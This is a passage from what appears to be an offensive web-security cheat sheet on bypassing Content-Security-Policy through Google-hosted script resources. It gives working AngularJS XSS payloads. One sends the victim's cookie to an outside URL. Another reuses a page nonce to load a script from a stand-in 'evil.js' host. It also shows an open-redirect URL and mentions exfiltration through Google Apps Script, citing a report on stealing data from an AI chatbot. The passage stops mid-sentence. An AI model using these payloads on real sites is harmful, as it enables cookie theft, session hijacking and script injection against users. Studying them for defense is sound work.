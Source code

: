 ```html
<div
  ng-controller="CarouselController as c"
  ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
```

More [**payloads from this writeup**](https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/):

```html
<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>

<!-- Trigger alert -->
<img src="x" ng-on-error="$event.target.ownerDocument.defaultView.alert(1)" />

<!-- Reuse nonce -->
<img
  src="x"
  ng-on-error='
	doc=$event.target.ownerDocument;
	a=doc.defaultView.top.document.querySelector("[nonce]");
	b=doc.createElement("script");
	b.src="//example.com/evil.js";
	b.nonce=a.nonce; doc.body.appendChild(b)' />
```

#### Abusing www.google.com for open redirect

The following URL redirects to example.com (from [here](https://www.landh.tech/blog/20240304-google-hack-50000/)):

```
https://www.google.com/amp/s/example.com/
```

Abusing \*.google.com/script.google.com

It's possible to abuse Google Apps Script to receive information in a page inside script.google.com. Like it's [done in this report](https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/).

### Third Party Endpoints + JSONP

```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```

Scenarios like this where `script-src` is set to `self` and a particular domain which is whitelisted can be bypassed using JSONP. JSONP endpoints allow insecure callback methods which allow an attacker to perform XSS, working payload:
